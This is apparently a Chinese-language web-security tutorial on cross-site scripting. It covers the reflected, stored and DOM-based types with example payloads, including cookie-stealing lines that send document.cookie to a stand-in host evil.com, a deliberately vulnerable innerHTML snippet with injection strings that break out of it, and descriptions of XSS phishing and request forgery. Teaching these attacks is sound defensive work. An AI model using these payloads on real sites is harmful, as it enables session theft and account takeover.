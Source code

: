 恶意网址拦截是浏览器周期性地从服务器端获取一份最新的恶意网址黑名单，如果用户上网时访问的网址存在于此黑名单中，浏览器就会弹出一个警告页面。

## 3. 跨站脚本攻击 XSS

跨站脚本攻击（Cross Site Script，XSS）指通过「HTML注入」篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

XSS 的本质是一种 HTML 注入，用户的数据被当成了 HTML 代码一部分来执行，从而混淆了原本的语义，产生了新的语义。

### XSS 的分类

针对各种不同场景产生的 XSS，需要区分情景对待。XSS 根据效果不同分为：

1. **反射型 XSS**
    反射型 XSS 只是简单地把用户输入的数据「反射」给浏览器。黑客往往需要诱使用户点击一个恶意链接，才能攻击成功。
2. **存储型 XSS**
    存储型 XSS 会把用户输入的数据「存储」在服务器端。比如写一篇包含有恶意 JS 代码的文章，所有访问该文章的用户，都会在他们的浏览器中执行这段恶意的代码。这样的漏洞极其隐蔽，且埋伏在用户的正常业务中，风险颇高。
3. **DOM Based XSS**
    通过修改页面的DOM节点形成的XSS。

存储型 XSS 的风险会高于反射型 XSS，因为存储型 XSS 会保存在服务器上，跨页面存在。

反射型 XSS 的例子：一个页面把用户输入的参数直接输出到页面上，那么用户就可能提交一段 HTML 代码，这个代码将直接在页面执行。我们可以利用这个漏洞盗取访问该页面的任何人的 Cookie，甚至是管理员的，比如输入 `<img src="http://evil.com/log?"+escape(document.cookie) />`。

存储型 XSS 的例子：一个带留言板的网页，如果没有对用户输入进行过滤和转译的话，攻击者在留言板留言 `<script>alert('XSS')</script>` 以后其他用户在进入这个页面时就会获取并执行这个脚本。

DOM Based XSS 的例子：

```html
<script>
function test(){
  var str = document.getElementById("text").value;
  document.getElementById("t").innerHTML = "<a href='"+str+"' >testLink</a>";
}
</script>
<div id="t" ></div>
<input type="text" id="text" value="" />
<input type="button" id="s" value="write" onclick="test()" />
```

![](https://cdn.jsdelivr.net/gh/SHERlocked93/pic@master/upic/HDNLQC-20210420-bFE7rw.png)

用户可以输入这样一个字段 `' onclick=alert(/xss/) //` ，这个字段首先用一个单引号闭合掉 href 的第一个单引号，然后插入一个 onclick 事件，最后再用注释符 `//` 注释掉第二个单引号。点击这个新生成的链接，脚本将被执行。

点击[这里](https://codepen.io/SHERlocked93/pen/gOgBmVq)查看效果。

也可以直接闭合掉 `a` 标签，插入一个新的 Script 标签 `><img src=# onerror=alert(/xss2/) /><` 这样也可以执行脚本。

### XSS 攻击

在前面的 XSS 攻击奏效之后，可以做的事就多了

1. **Cookie 窃取**：Cookie 中一般加密保存了当前用户的登录凭证。获取 Cookie 后，攻击者可以不通过密码，直接登录进用户的账户。
   可以加载一个远程脚本 `<script src=http://evil.com/evil.js/>`，在这个脚本中发送 `document.cookie` 给远程，比如插入一个图片，图片的 src 是 `"http://evil.com/log?"+escape(document.cookie)`
2. **伪造 Get/Post 请求**：可以通过模拟发送 Get/Post 请求来对页面进行操作。
   Get 方式比较简单，使用插入图片的方式发起请求。
   Post 请求可以采用构建表单，然后自动提交表单 `form.submit()`，也可以直接通过 XHR 发送。
3. **XSS 钓鱼**：攻击者可以将 XSS 与钓鱼相结合来窃取密码。
   比如用 JS 在当前页面上画出一个伪造的登录框，当用户在登录框中输入用户名与密码后，其密码将被发送至黑客的服务器上。
4. **获取用户信息**：
   1. 通过获取 `navigator.userAgent` 或者浏览器版本之间独特的差异，来获取浏览器版本信息，可以实施精准的浏览器内存攻击。
   2. 知道了用户使用的浏览器、操作系统后，通过判断用户安装的软件，选择对应的浏览器漏洞，达到植入木马的目的。
   3. 通过 CSS 样式的 `visited` 属性，可以判断用户是否曾经访问某个链接。
   4. 借助第三方软件或者浏览器控件，可以获取到本地 IP 地址。
